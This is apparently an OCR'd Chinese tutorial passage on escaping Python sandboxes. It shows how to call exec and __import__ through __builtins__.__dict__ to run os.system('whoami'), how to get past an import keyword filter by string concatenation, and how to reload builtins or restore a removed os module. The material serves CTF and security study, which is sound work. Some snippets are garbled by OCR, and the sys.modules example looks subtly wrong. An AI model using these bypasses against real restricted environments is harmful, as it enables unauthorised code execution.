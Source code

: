在python3中

![image-20200421095205061](assets/20200424150425.png)

所以我们通过dict属性来调用这些函数，例如如下调用exec来执行其中的python语句。

```none
>>> __builtins__.__dict__['exec']("print('ok')")ok
```

通过内建函数来导入包

```none
>>> __builtins__.__dict__['__import__']('os').system('whoami')misaki\user
```

万一跟上面一样，禁用了import，当然还可以使用拼接的方式

```none
>>> __builtins__.__dict__['__imp'+'ort__']('os').system('whoami')misaki\user
```

如果在__builtins__中，部分需要引用的函数被删除。不能直接用dict属性来调用，可以使用reload来重新加载

```none
reload(__builtin__)
```

如果仔细看上面的图片就可以看到，在python2中reload也是__builtin__的内建函数。如果此函数被删除在python2中也不可以直接引用了。python3中reload不再是内建函数，3.4之前是imp模块下的函数，而之后是importlib模块下的函数。

所以可以直接利用imp模块来导入，python2也可以利用。

```none
>>> import imp>>> imp.reload(__builtins__)<module '__builtin__' (built-in)>
```

在所上的导入模块中，系统的包都在一个默认路径下，被sys的modules存储记录。如果把其中的os模块删除就不能再去加载os模块了，这时候需要手动把os重新加载进去。一般尝试默认路径，或者sys查看存储路径

```none
>>> import sys>>> sys.modules['os']='/usr/lib/python3.6/os.py'>>> import os>>>
```
